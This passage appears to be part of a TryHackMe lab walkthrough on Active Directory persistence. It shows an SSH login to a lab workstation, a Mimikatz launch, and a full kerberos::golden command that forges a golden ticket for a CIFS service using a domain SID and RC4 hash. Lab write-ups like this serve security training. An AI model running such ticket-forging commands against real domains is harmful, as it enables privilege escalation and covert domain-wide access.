 	* Login SSH to THMWRK1 
	
		```
		ssh ruth.dale@za.tryhackme.loc@thmwrk1.za.tryhackme.loc
		```

		![task3-ssh](./images/task3-ssh.png)

	* Run powershell & `Get-ADDomain`
	
		![task3-getad](./images/task3-getad.png)

	* Run Mimikatz
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe
		```

	* Run Script for Golden Ticket
		
		```
		kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:THMSERVER1.za.tryhackme.loc /rc4:4c02d970f7b3da7f8ab6fa4dc77438f4 /service:cifs /ptt
		```
